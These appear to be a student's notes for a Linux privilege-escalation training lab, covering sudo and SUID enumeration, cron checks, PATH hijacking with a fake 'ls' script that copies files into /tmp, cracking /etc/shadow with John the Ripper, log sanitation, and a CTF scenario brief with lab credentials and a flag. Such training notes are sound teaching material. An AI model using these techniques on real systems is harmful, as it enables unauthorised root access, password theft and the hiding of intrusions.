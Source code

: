 [gtfo bins website](https://gtfobins.github.io)

- ignore anything about restricted shell
- literally copy paste the valid commands you find from performing `sudo -l
- super duper best friend for privesc`
- look at nonstandard binaries (gtfo bins wont help for these)
## SUDO STUFF

`sudo -l`	:	shows the commands you can run sudo with as current user. IF YOU SEE ANYTHING, TAKE NOTE!
`/etc/sudoers`	:	file containing all users with sudo access
- if you can sudo `cat`, you can crack passwords with john after looking into `/etc/shadow`!!
- world writeable directories: use `/tmp`

## SUID/GUID
- look for these set bits to pop root
- `find / -perm /4000 2>/dev/null`	:	returns any files with the SUID bit set
- `find / -perm /2000 2>/dev/null`	:	returns any files with the GUID bit set
- 

## CRONS
- [crontab guru, helpful for creating crons](https://crontab.guru/)
- look into netcat listeners, anything running under root, anything that looks out of the ordinary/opening weird files. use your analyst brain
- `crontab -l`    :   lists all cronjobs
- `sudo crontab -l`   :   lists all of root's cronjobs
- `/etc/crontab`      :   the actual crontab directory
- `/etc/cron.*`   :   dont actually use * here. there are 6 cron directories to check, start at cron.d and work your way through them
- look at crons! super important. netcat listeners and beacons are huge


## INSECURE PERMISSIONS / DOT IN THE PATH
- `echo $PATH`	:	shows your directory paths for binaries
- look for `.` in your path variable; can be exploited to run scripts with the same names as known binaries from your current workig directory


## USER ACCOUNTS

`user add`

## SANITIZING LOGS

- minimum of 2 logs (ssh login, ssh exit)
- syslog, rsyslog, /var/log

## READING FILES
-consider using head/tail to find flags easier


## RSYSLOG

`/etc/rsyslog.d/*`
`/etc/rsyslog.conf`





methodology

- look at sudo commands `sudo -l`
- if none? look at SUID/GUID bits with find command
- check gtfobins for each result from your find command related to SUID/GUID
- 


# JOHN THE RIPPER DEMO

```
sudo apt install john


vim shadow    #put the entire line into the file from /etc/shadow
john --wordlist=rockyou.txt shadow.txt --show 


                      ^ reconnaissance will show you what wordlist you need to use for john in order to pass le test






```






# CTFD

```
Donovian Linux Privilege Escalation, and Persistence (DLP)
XX Feb 2027
Start Time: 1300
Duration: 4 hours

Type of Operation: Cyberspace Exploitation (C-E)

Objective: Maneuver into the Donovian internal network, gain privileged access to discovered Linux hosts.

Tools/Techniques: SSH masquerade into internal network with provided credentials. Ports in use will be dependent on target location and are subject to change. Linux techniques to gain privileged access and persist are limited to host misconfigurations, open suid/sgid, weak permissions, and path. Network scanning tools/technique usage is at the discretion of student.

Scenario Credentials: FLAG = H@RDl1nux5t@rt0F@ct1v1ty

Prior Approvals: Privilege escalation, persistence, and restarting of services through host reboot. Host survey and log sanitation utilizing native command shells, which shell is at discretion of student. NOT authorized is uploading of tools or altering account information.

Scheme of Maneuver:
>internet_grey_host
->Pivot:192.168.28.105
--->T1: 192.168.28.27
--->T2: 192.168.28.12

Target Section:

Pivot
Hostname: Donovian-Terminal
IP: 192.168.28.105
OS: Ubuntu 18.04
Creds: comrade :: StudentReconPassword
Last Known SSH Port: 2222
PSP: rkhunter
Malware: none
Action: Perform SSH masquerade and redirect to the next target. No survey required, cohabitation with known PSP approved.

T1
Hostname: unknown
IP: 192.168.28.27
ghjcnbnenrf      (zeus)
OS: Linux ver: Unknown
Creds: comrade :: StudentPrivPassword
Last Known Ports: unknown
SSH PORT: 22 default
PSP: unknown
Malware: unknown
Action: Test supplied credentials, if possible gain access to host. Conduct host survey and gain privileged access.

T2
Hostname: unknown
IP: 192.168.28.12
OS: Linux ver: Unknown
Creds: comrade :: StudentPrivPassword
Last Known Ports: unknown
PSP: unknown
Malware: unknown
Action: Test supplied credentials, if possible gain access to host. Conduct host survey and gain privileged access.



USING A FALSE BINARY TO PERFORM PRIVESC (sussy ls command)

example:
> cd /tmp
> touch ls

#!/bin/bash
/bin/cat /home/billybob/f!@g1.txt > /tmp/actualFlag.txt
/bin/cat /home/billybob/10-million-password-list-top-10000.txt > /tmp/passList.txt
/bin/cat /home/billybob/logs > /tmp/logs
/usr/bin/sudo -l > /tmp/sudoCommands


change the commands accordingly


crontabs: 

> crontab -e

make sure you use the cron guru website to build your crons

append your command to the end of the crontab

watch -n1 'what_to_watch' ##for ease of use














```








